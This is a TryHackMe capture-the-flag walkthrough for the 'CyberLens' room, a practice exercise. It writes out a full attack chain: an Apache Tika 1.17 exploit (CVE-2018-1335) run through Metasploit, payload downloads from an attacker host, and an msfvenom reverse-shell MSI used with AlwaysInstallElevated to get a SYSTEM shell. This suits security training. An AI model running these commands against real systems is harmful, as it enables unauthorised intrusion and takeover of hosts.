 ```yaml
---
layout: post
title: TryHackMe/Easy/CyberLens
abbrlink: 56e5750641604924acea8d5a95b67c03
tags:
  - cve-2018-1335
  - metasploit
  - apache tika
  - web
  - windows
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - CyberLens
date: 1716046193170
updated: 1721507495932
---
```


<https://tryhackme.com/r/room/cyberlensp6>

# Scenario

Welcome to the clandestine world of CyberLens, where shadows dance amidst the digital domain and metadata reveals the secrets that lie concealed within every image. As you embark on this thrilling journey, prepare to unveil the hidden matrix of information that lurks beneath the surface, for here at CyberLens, we make metadata our playground.

In this labyrinthine realm of cyber security, we have mastered the arcane arts of digital forensics and image analysis. Armed with advanced techniques and cutting-edge tools, we delve into the very fabric of digital images, peeling back layers of information to expose the unseen stories they yearn to tell.

Picture yourself as a modern-day investigator, equipped not only with technical prowess but also with a keen eye for detail. Our team of elite experts will guide you through the intricate paths of image analysis, where file structures and data patterns provide valuable insights into the origins and nature of digital artifacts.

At CyberLens, we believe that every pixel holds a story, and it is our mission to decipher those stories and extract the truth. Join us on this exciting adventure as we navigate the digital landscape and uncover the hidden narratives that await us at every turn.

Can you exploit the CyberLens web server and discover the hidden flags?

# Enumeration

## \[+] 10.10.75.38 - cyberlens.thm

Using `echo` and `>>` to append the IP address with the domain name to my `/etc/hosts` file. Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online:

```sh
sudo echo '10.10.75.38 cyberlens.thm' >> /etc/hosts
export RHOSTS=10.10.75.38
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

### \[-] cyberlens.thm/about.html

On this page, there is a web application which allows us to view the metadata of an image that we upload:

![a2ea2fe1abf93f81ec266b0689e6625d.png](/resources/9545c25bcb674dfebe6abfed34dec6f1.png)

In the screenshot above, I uploaded an image and pressed the "Get Metadata" button; the output below that is the metadata from the image. One interesting field is the "File Name" field which shows that the application renamed the file I uploaded from `msf.jpg` to `apache-tika-4451945236000531970.tmp`.

The filename structure gives us a hint as to what is running in the background. Let's try uploading the file and viewing the metadata again, but this time using [ZAP](zaproxy.org/) or [Burp Suite](https://portswigger.net/burp):

![646d77d288aa2e17cdb18a22e4f05f9c.png](/resources/0d34ff6b46e44535be88089e8da566f7.png)

After pressing the "Get Metadata" button, a request is made to `http://cyberlens.thm:61777` let's check that page out and see if there's anything of interest.

## \[-] Port 61777 - HTTP

### \[-] cyberlens.thm:61777

Here we find more information about the backend services, which is running Apache Tika 1.17, the filename we found in the metadata was `apache-tika` and from our Nmap scan, we also find the version number in the `http-title` field:

![0a035567497db82d19a820a7839fd3c2.png](/resources/f6c8d41ebb904767aa1b6f17780a0ec5.png)

![1730711ac2ce7da8b5ad6273a941d5fc.png](/resources/c99964a7b3464043ae751f5918140079.png)

# Initial Foothold

### \[-] CyberLens

If we search for "Apache Tika 1.17 exploit" we will find a page on [Exploit-DB (CVE-2018-1335)](https://www.exploit-db.com/exploits/47208) for the Metasploit module.

Start Metasploit using the command `msfconsole`, then select the module with `use exploit/windows/http/apache_tika_jp2_jscript`.

```sh
msfconsole
use exploit/windows/http/apache_tika_jp2_jscript
```

Check the options using: `options` and set up the correct parameters with `set <OPTION> <VALUE>`. We set `lhost` to the attacking machine's IP, set `rhosts` to `cyberlens.thm`, since we are attacking the Apache Tika server we set `rport` to `61777`, then `run` to execute the exploit.

```sh
options
set lhost <ATTACKER_IP>
set rhosts cyberlens.thm
set rport 61777
run
```

After a moment we should have a meterpreter shell in which we can type the `shell` command to get a Windows Command Prompt:

![724ea7b6b3c351d6e8e5bbec1523bb8a.png](/resources/9134693a6cad42199e7cb62dd051e1aa.png)

The user flag can be found in `C:\Users\CyberLens\Desktop\user.txt`, we can print the contents using `type`:

```cmd
cd C:\Users\CyberLens\Desktop
type user.txt
```

![4a594854cf18bab0cbb81076c716a2f3.png](/resources/693ce4840ffc46d2814503ecf9d59a40.png)

# Privilege Escalation

### \[-] SYSTEM

To enumerate the machine, I used [winPEAS](https://github.com/peass-ng/PEASS-ng) but you could easily do it manually as well by checkin the registry keys in the Command Prompt; if the value is set to `0x1` then it is enabled:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

To use winPEAS, first on the attacking machine - download the latest "`winPEASany_ofs.exe`" version from the [releases page](https://github.com/peass-ng/PEASS-ng/releases) then host the file using Python:

```sh
python3 -m http.server 8080
```

On the victim machine, start PowerShell using `powershell`, then download and save the file using `Invoke-WebRequest` with the `-OutFile peas.exe` flag:

```
powershell
Invoke-WebRequest <ATTACKER_IP>:8888/winPEASany_ofs.exe -OutFile peas.exe
```

After the file has been downloaded, run it using `.\peas.exe`. Scrolling through the output of winPEAS, we'll find one of many possible privilege escalation avenues:

![3336988ff90f94c87a3ab6ac9eb3f44e.png](/resources/c751faf95152465d92adf9cc12a8a476.png)

This permission allows us to install anything with elevated privileges. We can generate a reverse shell in MSI (Microsoft Installer) format using `msfvenom` on our attacking machine, set up a listener, download the payload, abuse the elevated install privileges and get a reverse shell as SYSTEM.

On the attacking machine, generate the payload using `msfvenom`:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4445 -a x64 --platform Windows -f msi -o shell.msi
```

Host the payload using Python:

```sh
python3 -m http.server 8888
```

Then start a listener using `nc`:

```sh
nc -nvlp 4445
```

Back on the victim machine, we download the file using `Invoke-WebRequest`:

```ps
Invoke-WebRequest <ATTACKER_IP>:8888/shell.msi -OutFile shell.msi
```

After the file has been downloaded, we execute the payload:

```ps
.\shell.msi
```

Then check back on the attacking machine's listener for the connection back:

![ae96d56fe95d38519f686be13f246717.png](/resources/11f970cb5dd740a2970c515df6b5e32f.png)

We can get the last flag in `C:\Users\Adminisrator\Desktop\admin.txt`:

```cmd
cd C:\Users\Administrator\Desktop
type admin.txt
```

![3eb5e71d806469ed1cb9fe438c140e96.png](/resources/e6b209f9994e46abaee9577672e437f4.png)

